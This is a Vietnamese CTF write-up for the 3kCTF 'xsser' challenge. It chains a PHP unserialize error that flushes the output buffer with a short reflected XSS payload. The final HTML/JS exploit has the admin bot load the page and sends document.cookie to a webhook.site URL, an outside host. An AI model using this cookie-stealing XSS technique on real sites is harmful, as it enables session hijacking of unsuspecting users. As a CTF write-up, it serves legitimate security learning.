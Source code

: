 ```yaml
---
title: xsser - 3kCTF
date: 2020-07-29
description: ""
categories:
  - CTF
tags:
  - xss
  - web
  - php
menu: main
---
```

Nguồn: <https://ctftime.org/writeup/22594>

Truy cập vào đường link <http://xsser.3k.ctf.to/> trang sẽ tự chuyển hướng thành [http://xsser.3k.ctf.to/?**login=O:4:"User":2:{s:4:"name";s:5:"guest";s:7:"isAdmin";b:0;}**](http://xsser.3k.ctf.to/?login=O:4:"User":2:{s:4:"name";s:5:"guest";s:7:"isAdmin";b:0;})

và đây là nội dung file index.php

```php
<?php
include('flag.php');
class User

{
    public $name;
    public $isAdmin;
    public function __construct($nam)
    {
        $this->name = $nam;
        $this->isAdmin=False;
    }
}

ob_start();
if(!(isset($_GET['login']))){
    $use=new User('guest');
    $log=serialize($use);
    header("Location: ?login=$log");
    exit();

}

$new_name=$_GET['new'];
if (isset($new_name)){

  if(stripos($new_name, 'script'))//no xss :p
                 {
                    $new_name = htmlentities($new_name);
                 }
        $new_name = substr($new_name, 0, 32);
  echo '<h1 style="text-align:center">Error! Your msg '.$new_name.'</h1><br>';
  echo '<h1>Contact admin /req.php </h1>';

}
 if($_SERVER['REMOTE_ADDR'] == '127.0.0.1'){
            setcookie("session", $flag, time() + 3600);
        }
$check=unserialize(substr($_GET['login'],0,56));
if ($check->isAdmin){
    echo 'welcome back admin ';
}
ob_end_clean();
show_source(__FILE__);
```

Thoạt nhìn có thể khai thác được xss thông qua `$_GET['new']` , nhưng nó nằm trong `ob_start()` và `ob_end_clean()` ( lưu output vào buffer và clean) nên dù có khai thác được xss thì `$_GET['new']` cũng không được in ra trình duyệt.

Nhưng khoan, vậy thì hàm `htmlentities()` chống xss để làm gì.

Dạo một vòng php documentation thì phát hiện [ob_start()#108016](https://www.php.net/manual/en/function.ob-start.php#108016), cụ thể khi có lỗi throw ra trong buffer thì nó in ra tất cả những gì đang có trong buffer.

Vì vậy ta nên khai thác lỗi các hàm khác để buffer được in ra, từ đó khai thác tiếp xss.

[unserialize()#112894](https://www.php.net/manual/en/function.unserialize.php#112894) cho ta biết nếu object truyền vào không thể khởi tạo (Abstract Class hoặc Interface) thì sẽ throw lỗi. Vậy nên ta xây dựng payload là một string đã serialized.

Dựa trên [unserialize()#66147](https://www.php.net/manual/en/function.serialize.php#66147) để build một payload: `O:8:"Iterator":0:{}` truyền vào `$_GET['login']`

Nhận thấy `htmlentities()` chỉ thực thi khi phát hiện `'script'` truyền vào. Vậy ta sẽ dùng payload inline xss: `<svg/onload=alert(1)>` truyền vào `$_GET['new']`

Truy cập: [http://xsser.3k.ctf.to/?login=O:8:"Iterator":0:{}&new=<svg/onload=alert(1)>](http://xsser.3k.ctf.to/?login=O:8:%22Iterator%22:0:%7B%7D&new=%3Csvg/onload=alert(1)%3E)

Kết quả:

![XSS exploited](/img/untitled.png)

Vậy là chạy được script tiêm vào. Nhưng script bị giới hạn chỉ 32 kí tự, và không dùng được script tag. Tìm payload ngắn nhất trên google ra được [bài này](https://brutelogic.com.br/blog/shortest-reflected-xss-possible/).

Chúng ta có 2 lựa chọn:

1. Có một domain 4 kí tự trở xuống chứa script `<svg/onload=import('xxxx.yy')>`
2. Lưu script vào `window.name` rồi thực thi `<svg/onload=eval(name)>`

Mình chọn cách 2 vì đơn giản hơn. Việc còn lại là lấy được `$flag` thông qua cookie của admin

```php
 if($_SERVER['REMOTE_ADDR'] == '127.0.0.1'){
            setcookie("session", $flag, time() + 3600);
```

Như chúng ta thấy cookie chỉ được set khi địa chỉ truy cập là `127.0.0.1` tức là `localhost` vậy khi viết script chúng ta sẽ trỏ tới `127.0.0.1` thay vì `xsser.3k.ctf.to`

Bạn cần host script của bạn và submit vào <http://xsser.3k.ctf.to/req.php> để admin truy cập.

Mình thích dùng [repl.it](http://repl.it) để host code, vì thằng này có thể chạy được `http` và cả `https` mà không bị chuyển hướng như [codesandbox.io](http://codesandbox.io). Và tất nhiên [webhook.site](https://webhook.site/) chuyển hướng cookie về và log lại

```html
<iframe id="xss" src="http://127.0.0.1/"></iframe>
<script>
  document.getElementById("xss").onload = function () {
    setTimeout(function () {
      window.open(
        "http://127.0.0.1/?login=O:11:%22Traversable%22:0:{}&new=%3Csvg/onload=eval(name)%3E",
        'window.location.href = "https://webhook.site/2efe831e-5b4e-43f2-a800-9734dd41d367?"+document.cookie'
      );
    });
  };
</script>
```

Copy link để submit nhớ bỏ `https` Link có dạng [http://ImmediateLavishCallbacks--five-nine.repl.co](https://immediatelavishcallbacks--five-nine.repl.co/)

![Submit XSS to Admin](/img/untitled-1.png)

Có một điều thú vị là script sẽ chạy nếu như click thẳng vào link. Còn nhập link vào trình duyệt thì Chrome sẽ tự phát hiện popup và chặn. Vậy nên `window.open()` sẽ không dùng được. Các bạn có thể dùng cách khác là tạo `<a href={link xss} target={window.name}>` và dùng javascript để click vào link đó.

Như vậy là thành công

![Get cookie successfully](/img/untitled-2.png)